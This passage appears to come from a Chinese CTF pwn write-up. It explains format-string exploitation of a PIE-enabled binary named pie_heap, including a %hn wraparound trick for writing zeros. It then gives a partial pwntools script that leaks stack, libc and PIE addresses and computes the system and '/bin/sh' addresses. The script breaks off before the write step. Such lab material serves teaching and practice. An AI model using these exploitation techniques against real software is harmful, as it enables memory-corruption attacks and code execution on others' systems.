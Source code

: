 ```

pause()

p.interactive()
```

### pie_heap

加了pie之后其实也没有什么区别，就是要多泄露一个PIE地址来找偏移，再把动态加载之后的真正的gadget地址找出来就行了，相对于没PIE其实有格式化字符串就是多了一步泄露pie地址然后计算偏移量计算就ok。

**提醒：这个还有个如何把一串0x0000写入内存，因为%0c是有一个字符的，所以这样写是不正确的，我们可以这样："%{}ca%{}$hn"，再往里写0xffff个字符然后他就会写入0x10000，高位去除就剩下0x0000了**

上脚本
```
from pwn import *

p = process('pie_heap') #env = {'LD_PRELOAD':'./libc.so.6'}
#libc = ELF('libc.so.6')
elf = ELF('pie_heap')

def s_sub(a,b):
    if a<b:
       return 0x10000 + a - b 
    return a - b 

##########step1##########

payload = ""
payload += "%7$p.%8$p.%17$p.%12$p.%13$p." 



p.recv()
p.sendline(payload)
p.recvuntil(".")
stack_addr1 = int(p.recvuntil(".",drop = True),16)
log.info("stack_addr1 addr: " + hex(stack_addr1))
libc_start_main_ret = int(p.recvuntil(".",drop = True),16)
log.info("libc_start_main_ret addr: " + hex(libc_start_main_ret))
stack_addr2 = int(p.recvuntil(".",drop = True),16)
log.info("stack_addr2 addr: " + hex(stack_addr2))
pie_addr = int(p.recvuntil(".",drop = True),16)
log.info("pie_addr addr: " + hex(pie_addr))

libc_base = libc_start_main_ret - 0x202e1
system_addr = libc_base + 0x3f480
sh_addr = libc_base + 0x1619b9
log.info("libc_base addr: " + hex(libc_base))
log.info("system_addr addr: " + hex(system_addr))
log.info("sh_addr addr: " + hex(sh_addr))
log.info("ret_addr addr: " + hex(stack_addr2 + 8))



##########step2##########

#########ret addr#######
#echo_better_ret = 0x7ffcb0f30b18
echo_better_ret = pie_addr - 36
printf_addr = pie_addr - 338
log.info("printf_addr addr: " + hex(printf_addr))
log.info("echo_better_ret addr: " + hex(echo_better_ret))
```